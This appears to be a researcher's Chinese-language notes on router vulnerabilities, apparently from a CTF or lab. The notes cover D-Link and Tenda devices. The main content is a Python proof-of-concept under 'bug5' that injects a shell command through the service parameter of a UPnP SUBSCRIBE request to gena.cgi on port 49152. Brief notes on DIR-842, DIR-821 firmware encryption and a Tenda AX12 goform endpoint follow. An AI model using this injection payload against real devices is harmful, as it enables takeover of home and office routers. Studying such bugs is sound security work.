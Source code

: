 #### bug5

```python
import socket
from time import sleep


def exp(server, port, shell_file):
    print('\n[*] Connection {host}:{port}').format(host=server, port=port)
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.2/>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-infinite Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    results = con.recv(4096)

exp('192.168.0.1', 49152, '`touch /flag4`')
```



## dlink Dir-842

`socket(2, 2, 0)` 调用创建了一个IPv4(AF_INET，因为第一个参数是2)的流式套接字(SOCK_STREAM，因为第二个参数是2)，第三个参数指定的是使用默认的协议(通常是TCP)。

` 0x7F000001` 表示使用回环地址(127.0.0.1)

load_all_modules



## dlink dir-821 ca

固件加密



## tenda AX12

### bug1

0x42F69C

/goform/setMacFilterCfg



<img src="https://e4l4pic.oss-cn-beijing.aliyuncs.com/image-20231121191829134.png" alt="image-20231121191829134" style="zoom:50%;" />
